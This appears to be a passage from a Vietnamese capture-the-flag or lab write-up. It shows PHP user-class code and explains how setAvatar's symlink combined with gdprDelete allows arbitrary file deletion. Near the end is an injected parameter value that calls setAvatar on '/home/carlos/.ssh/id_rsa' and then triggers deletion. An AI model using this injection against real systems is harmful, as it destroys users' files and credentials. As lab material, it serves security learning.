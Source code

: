 ```php=
                throw new Exception("Could not mkdir users/" . $this->username);
            }
        }
    }

    public function setAvatar($filename, $mimetype) {
        if (strpos($mimetype, "image/") !== 0) {
            throw new Exception("Uploaded file mime type is not an image: " . $mimetype);
        }

        if (is_link($this->avatarLink)) {
            $this->rm($this->avatarLink);
        }

        if (!symlink($filename, $this->avatarLink)) {
            throw new Exception("Failed to write symlink " . $filename . " -> " . $this->avatarLink);
        }
    }

    public function delete() {
        $file = $this->user_dir . "/disabled";
        if (file_put_contents($file, "") === false) {
            throw new Exception("Could not write to " . $file);
        }
    }

    public function gdprDelete() {
        $this->rm(readlink($this->avatarLink));
        $this->rm($this->avatarLink);
        $this->delete();
    }

    private function rm($filename) {
        if (!unlink($filename)) {
            throw new Exception("Could not delete " . $filename);
        }
    }
}
```

- Hàm setAvatar(filename, mimetype) sẽ tạo 1 symlink từ avatarLink đến filename. Mặt khác hàm gdprDelete() lại có chức xóa cả avatarLink và target nó đang link đến (chính là filename).
- Như vậy mính sẽ set avatar là file cần xóa `'/home/carlos/.ssh/id_rsa'`.

`blog-post-author-display=user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpeg')`

![image](https://hackmd.io/_uploads/r1xBjCXq6.png)

![image](https://hackmd.io/_uploads/HkHC6R7qp.png)

Gọi user.gdprDelete() để xóa.
